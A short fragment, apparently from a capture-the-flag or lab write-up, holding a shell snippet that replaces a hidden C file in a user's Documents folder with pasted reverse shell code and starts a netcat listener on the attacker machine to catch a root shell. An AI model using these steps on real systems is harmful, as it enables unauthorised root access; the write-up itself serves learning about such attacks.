   ```sh
  cd /home/boblaw/Documents

  ls -la

  rm .boring_file.c

  vim .boring_file.c
  # paste the reverse shell code here

  # in attacker machine
  nc -nvlp 4445
  # we get reverse shell as root
  ```
